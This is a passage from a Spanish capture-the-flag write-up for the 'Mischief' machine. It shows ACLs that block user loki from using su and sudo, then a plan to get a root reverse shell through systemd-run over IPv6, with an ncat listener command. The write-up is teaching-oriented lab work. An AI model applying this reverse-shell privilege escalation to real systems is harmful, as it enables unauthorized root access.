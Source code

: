 La password de root esta aqui.

Pero si Intentas acceder como root, no te va a dejar.

![alt text](image-8.png)

por que el usuario loki no puede ejecutar su ni sudo, mira:

```bash
loki@Mischief:~$ getfacl /usr/bin/sudo
getfacl: Removing leading '/' from absolute path names
# file: usr/bin/sudo
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

```bash
loki@Mischief:~$ getfacl /bin/su
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x

Entoces lo que haremos sera, enviarnos una revshell con python utilizando systemd-run, ya que tenemos la password de root.

Si nos enviamos una revshell por IPv4 no nos funciona, asi que ya sabes, hay que hacerla por IPv6:

- Primero Busca tu Ipv6
  ![alt text](image-9.png) 

    Ponte escucha con ncat Por Ipv6, ojo con nc no me funciono.

```bash
ncat -6 -l -p 9002
```
